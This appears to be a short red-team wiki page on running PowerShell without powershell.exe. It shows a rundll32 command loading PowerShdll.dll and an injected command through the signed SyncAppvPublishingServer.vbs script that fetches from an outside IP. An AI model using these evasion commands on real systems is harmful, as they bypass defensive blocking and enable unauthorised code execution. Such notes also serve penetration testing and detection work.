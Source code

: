 # Powershell Without Powershell.exe

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

## PowerShdll

```text
rundll32.exe PowerShdll.dll,main
```

![](../.gitbook/assets/pwshll-rundll32.gif)

Note that the same could be achieved with a compiled .exe binary from the same project, but keep in mind that .exe is more likely to run into whitelisting issues.

## SyncAppvPublishingServer

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```text
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![](../.gitbook/assets/pwshll-syncappvpublishingserver.png)

![](../.gitbook/assets/pwshll-syncappvpublishingserver.gif)

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://safe-cyberdefense.com/malware-can-use-powershell-without-powershell-exe/" %}

{% embed url="https://www.youtube.com/watch?v=7tvfb9poTKg" %}

